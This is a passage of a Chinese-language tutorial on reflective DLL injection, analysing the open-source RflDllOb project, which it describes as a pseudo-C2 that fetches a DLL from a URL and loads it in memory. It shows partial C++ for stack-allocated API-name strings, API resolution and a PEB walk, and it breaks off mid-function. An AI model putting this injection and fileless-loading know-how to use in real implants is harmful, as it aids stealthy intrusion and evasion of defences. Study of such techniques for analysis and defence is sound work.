 反射 DLL 注入又称 RDI，与常规 DLL 注入不同的是，它不需要 LoadLibrary 这个函数来加载 dll，而是通过 DLL 内部的一个函数来自己把自己加载起来，这么说可能会有一点抽象，总之这个函数会负责解析DLL文件的头信息、导入函数的地址、处理重定位等初始化操作，先不用理解这个函数是怎么实现的，后面会细说，我们只需要将这个DLL文件写入目标进程的虚拟空间中，然后通过DLL的导出表找到这个ReflectiveLoader并调用它，我们的任务就完成了。
那么我们的任务就到了如何编写这个函数上面了，由于这个函数执行的时候 DLL 还没有被加载，这个函数的编写也会受到诸多限制，比如说无法正常使用全局变量，还有我们的函数必须编写成与地址无关的函数，就像 shellcode 那样，无论加载到了内存中的哪一个位置都要保证成功加载。
这个技术也是非常实用的，除了进行注入，我们在开发 c2 时也可以利用此技术实现无文件落地攻击。
要理解这个技术需要丰富的 PE 知识，因此当你阅读这篇文章感到困难的时候，去看一些 PE 的东西再回来阅读会更好。
接下来要分析的项目是[https://github.com/oldboy21/RflDllOb](https://github.com/oldboy21/RflDllOb)，它实现了一个伪 c2 的无文件落地攻击，项目分成两个部分，一个是ReflectiveDLL，就是我们上面说的 dll，还有一个就是ReflectiveDLLInjector，它实现了从 url 下载ReflectiveDLL 并且注入到指定线程中，实现无文件落地攻击的技术。
我为这个项目画了个简单的图：
![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1716646256797-3f7fae36-1094-499f-a38f-428ce1f753fc.png#averageHue=%23fbfbfb&clientId=u88874eb8-5f9c-4&from=paste&height=473&id=u0a9ad647&originHeight=710&originWidth=1135&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=48057&status=done&style=none&taskId=u8fade020-1dcc-49de-94f5-cb7f524d158&title=&width=756.6666666666666)
## ReflectiveDLL
以下是ReflectiveLoader大致实现思路的思维导图：
![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1716434136448-3800c799-47fa-47a1-82a9-98cac2757c35.png#averageHue=%23fdf8f5&clientId=ubd223ebf-3088-4&from=paste&height=736&id=AwZxG&originHeight=1104&originWidth=1795&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=421923&status=done&style=none&taskId=u3f5eff3c-8159-4cdc-98a4-20fed34e8c2&title=&width=1196.6666666666667)
### 变量定义
首先我们在ReflectiveFunction 函数开头可以看到下面这样的声明，还记得我们在上面说的无法使用全局变量吗，这意味着我们所有的变量都必须是堆栈变量。堆栈变量不会最终出现在编译的代码部分（需要重新定位的位置），但始终使用堆栈指针的相对偏移量进行寻址。
```cpp
    WCHAR kernel32[] = { L'K', L'e', L'r', L'n', L'e', L'l', L'3', L'2', L'.', L'd', L'l', L'l', L'\0' };
    WCHAR ntdll[] = { L'n', L't', L'd', L'l', L'l', L'.', L'd', L'l', L'l', L'\0' };
    WCHAR user32[] = { L'U', L's', L'e', L'r', L'3', L'2', L'.', L'd', L'l', L'l', L'\0' };
    CHAR virtualAlloc[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'A', 'l', 'l', 'o', 'c', '\0' };
    CHAR virtualProtect[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'P', 'r', 'o', 't', 'e', 'c', 't', '\0' };
    CHAR rtladdFunctionTable[] = { 'R', 't', 'l', 'A', 'd', 'd', 'F', 'u', 'n', 'c', 't', 'i', 'o', 'n', 'T', 'a', 'b', 'l', 'e', '\0' };
    CHAR ntFlushInstructionCache[] = { 'N', 't', 'F', 'l', 'u', 's', 'h', 'I', 'n', 's', 't', 'r', 'u', 'c', 't', 'i', 'o', 'n', 'C', 'a', 'c', 'h', 'e', '\0' };
    CHAR loadLibraryA[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', '\0' };
```
像上面这样声明我们的字符串将使编译器在运行时将这些单个字符推送到堆栈上。因此，区别在于初始化风格，定义单个字符与使用字符串文本，前者产生堆栈分配的数组，而后者产生在可执行文件的初始化数据部分中分配的数组。
### 获取所需系统 api
通过`GPAR(GMHR(kernel32), virtualAlloc)`这样的方式来获取系统 api，GMHR 是获取 dll 句柄的函数，GPAR 的功能是通过句柄获取对应导出表函数地址
```cpp
    if ((VA = (fnVirtualAlloc)GPAR(GMHR(kernel32), virtualAlloc)) == NULL)
        return FALSE;
    if ((LLA = (fnLoadLibraryA)GPAR(GMHR(kernel32), loadLibraryA)) == NULL)
        return FALSE;
    if (!(VP = (fnVirtualProtect)GPAR(GMHR(kernel32), virtualProtect)))
        return FALSE;
    if (!(RAFT = (fnRtlAddFunctionTable)GPAR(GMHR(kernel32), rtladdFunctionTable)))
        return FALSE;
    if (!(FIC = (fnNtFlushInstructionCache)GPAR(GMHR(ntdll), ntFlushInstructionCache)))
        return FALSE;
```
在 GMHR 函数中，我们通过 PEB 来获取想要获取的函数所在 dll 的句柄。（关于 peb 的知识可以看[https://xz.aliyun.com/t/13556](https://xz.aliyun.com/t/13556)）
```cpp
//----------------GET MODULE HANDLE---------------------
HMODULE GMHR(IN WCHAR szModuleName[]) {   
    PPEBC					pPeb = (PEBC*)(__readgsqword(0x60));
    // geting Ldr
    PPEBC_LDR_DATA			pLdr = (PPEBC_LDR_DATA)(pPeb->Ldr);
    // getting the first element in the linked list (contains information about the first module)
    PLDR_DATA_TABLE_ENTRYC	pDte = (PLDR_DATA_TABLE_ENTRYC)(pLdr->InMemoryOrderModuleList.Flink);
    
    while (pDte) {
        // if not null
```